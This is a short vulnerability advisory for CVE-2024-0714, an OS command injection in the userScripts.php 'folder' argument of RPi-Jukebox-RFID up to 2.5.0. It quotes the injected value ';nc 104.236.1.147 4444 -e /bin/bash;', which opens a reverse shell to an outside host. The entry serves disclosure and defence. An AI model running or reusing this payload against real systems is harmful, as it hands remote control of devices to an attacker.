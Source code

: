 # CVE-2024-0714 - cna@vuldb.com

A vulnerability was found in MiczFlor RPi-Jukebox-RFID up to 2.5.0. It has been rated as critical. Affected by this issue is some unknown functionality of the file userScripts.php of the component HTTP Request Handler. The manipulation of the argument folder with the input ;nc 104.236.1.147 4444 -e /bin/bash; leads to os command injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-251540. NOTE: The vendor was contacted early about this disclosure but did not respond in any way.

**Publish date:** 2024-01-19
